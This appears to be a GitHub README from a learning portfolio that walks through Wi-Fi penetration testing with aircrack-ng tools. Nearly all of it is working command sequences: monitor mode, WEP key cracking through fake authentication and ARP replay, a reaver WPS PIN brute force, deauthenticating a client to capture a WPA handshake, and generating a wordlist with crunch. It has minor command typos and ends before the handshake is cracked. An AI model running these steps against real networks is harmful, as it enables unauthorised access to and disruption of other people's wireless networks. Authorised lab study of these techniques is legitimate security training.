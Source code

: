 # Wireless Network Penetration Testing

## Objective

Finding weaknesses in Wifi networks with different encryption types. Finding the weakness of WEP networks.
Finding weak passwords on WPA/WPA2 networks


### Skills Learned

- Finding 5Gz and 2.5Gz wireless networks around me
- aircrack-ng
  

### Tools Used

- Kali Linux.
- VMware Fusion.
- airodump-ng
- aircrack-ng
- WASH
- aireplay-ng
- Crunch

### Steps for WAP

- Changing the wireless USB mode to monitoring
```bash
ifconfig wlan0 down
iwconfig wlan0 mode monitor
ifconfig wlan0 up
```

>The mode will be Monitor now

1. Sniffing on 5G and 2.4G networks and find the network with the cipher WEP
```bash
airdump-ng --band abg wlan0
```

2. Sniffing packets from the network with the WEP cipher with the specific MAC and channel number and save the results in a file test
```bash
airodump-ng --bssid 03:DE:4B:AD:CC:8B --channel 9 --write test mon0
```

3. Wait for the #Data number to move real fast and open a new terminal window and ls to find the ".cap" file that you created.
4. Use aircrack-ng to find the Key from the file we created ending with .cap
```bash
aircrack-ng test.cap
```
5. Copy the key and remove the : and that would be the wifi password.

**If the network is not busy we need to follow the steps below: -**

1. We need to capture data from the WEP network and write it in a file.
```bash
 airodump-ng --bssid B4:75:0E:36:6A:9E --channel 11 --write basic_wep wlan0
```
2. We will need to commmunicate with the WEP network by creating a Fake Authentication attack using aireplay-ng
```bash
aireplay-ng --fakeauth 0 -a B4:75:0E:36:6A:9E -h 6E:3D:AC:84:DB:A0 wlan0
```
>the first MAC is the target and the second MAC is the USB adapter.
>If you want to know the permanent MAC address of the USB adapter
```bash
macchanger -s wlan0
Current MAC:   ba:1f:40:bc:19:d4 (unknown)
Permanent MAC: 34:7d:e4:40:83:86 (unknown)
```
3. We need to create an ARP Request preplay attack to generate new packets
```bash
aireplay-ng --arpreplay -b B4:75:0E:36:6A:9E -h ba:1f:40:bc:19:d4 wlan0
```
4. We will then crack the file we created to find the password.
```bash
aircrack-ng arpreplay-01.cap
```

### Steps for WPA/WPA2

**Works for some routers with WPS**
- Changing the wireless USB mode to monitoring
```bash
ifconfig wlan0 down
iwconfig wlan0 mode monitor
ifconfig wlan0 up
```
- Find wifi networks with WPS enebled using the tool WASH
```bash
wash --interface wlan0
```
- Use aireplay-ng to create a fake authentication with te first MAC address is the target and the second is the USB wireless adapter MAC address, which is the first 12 characters from the ifconfig, make sure to replace the "-" with the ":".
```bash
aireplay-ng --fakeauth 30 -a 78:67:0E:31:4C:42 -h 3A:97:5F:E2:18:5F wlan0
```
- Don't execute the code above yet. We go to the second terminal and use reaver tool to bruteforce and get the pin.
```bash
reaver --bssid 78:67:0E:31:4C:42 --channel 1 --interface wlan0 -vvv --no-associate
```

- If Reaver finds the pin then the password will be available for the Wifi network. 
>Not all routers will be cracked with these steps.

**Method for capturing handshake**

1. Sniff on 5G and 2.4G networks and find the network with WPA/WPA2 and get the BSSID
```bash
airdump-ng --band abg wlan0
```
2. Write a file via **airodump-ng**.
```bash
airodump-ng --bssid 30:DE:4B:AD:CC:8A --channel 161 --write wpa_handshake wlan0 
```
3. Disconnect the client from the target network to capture the handshake.
```bash
aireplay-ng --deauth 4 -a 30:DE:4B:AD:CC:8A -c EE:7B:BE:70:D6:1F wlan0
```
> The number after the --deauth is the number of packets you want to send to the target.
> The first MAC is the target and the second MAC of the client you want to disconnect (will be under station).

4. The handshake WPA will be saved in the file we created wpa_handshake.cap
5. We will create a wordlist of passwords possibilities using the tool **Crunch**. Then read the file
```bash
crunch 1 3 abc123 -o test_wordlist.txt
cat test_worklist.txt
```


￼
